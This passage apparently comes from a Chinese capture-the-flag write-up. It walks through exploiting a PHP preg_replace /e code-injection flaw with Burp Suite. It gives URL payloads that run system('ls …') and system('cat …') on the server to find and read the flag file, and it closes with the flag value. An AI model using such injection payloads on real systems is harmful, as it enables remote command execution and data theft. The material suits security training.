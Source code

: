 我就用burpsuite了，比较方便。注意X-Forwarded-For记得开头全部大写。从response中可以发现s3chahahaDir这个文件夹很可疑。继续执行命令。

- /index.php?pat=/flag/e&rep=system("ls+s3chahahaDir")&sub=flag

发现flag文件夹。继续往下。使用+号代替空格的原因是符合url编码。

- /index.php?pat=/flag/e&rep=system("ls+s3chahahaDir/flag")&sub=flag

发现flag.php。直接cat就能拿到flag了。

- /index.php?pat=/flag/e&rep=system("cat+s3chahahaDir/flag/flag.php")&sub=flag

## Flag
> cyberpeace{96c585a509c100a7a043fb7f9d4ea085}